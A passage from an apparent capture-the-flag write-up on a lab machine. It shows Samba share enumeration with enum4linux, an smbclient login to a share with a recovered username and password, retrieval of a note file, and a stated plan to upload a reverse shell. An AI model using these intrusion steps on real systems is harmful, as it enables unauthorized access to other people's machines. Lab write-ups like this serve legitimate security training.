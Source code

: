 ```
Username Password
Tove [REDACTED]
Godzilla [REDACTED]
SuperMan [REDACTED]
ArthurMorgan [REDACTED]
```
Do you remember the result of our `nmap` scan?
 
Use your memory!!

We found a `SAMBA` service running, so I used `enum4linux` to check the shares of the machine.

```bash
 ======================================= 
|    Share Enumeration on 10.10.1.67    |
 ======================================= 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	SECURED         Disk      Dev
	IPC$            IPC       IPC Service (incognito server (Samba, Ubuntu))
```
Maybe we can try to login with the user:password that we got...

## Foothold - User

And yes, It worked! We can login with the account of `ArthurMorgan` into the `SECURED` share! BTW it's the only one that worked...

```bash
╰─ lanfran@parrot ❯ smbclient //10.10.1.67/SECURED -U ArthurMorgan                                                                 ─╯
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 22 00:04:28 2021
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

		7743660 blocks of size 1024. 4447240 blocks available
smb: \> get note.txt
getting file \note.txt of size 45 as note.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit

```
Listing the files on the directory, we find a `note.txt` file... Hmmm looks familiar...

This is a memory machine XD

Going back on our findings, we have already found this `note.txt` file...

Yes! in `gobuster` found it for us, inside the `/dev` folder!

So let's upload a reverse shell to the server!

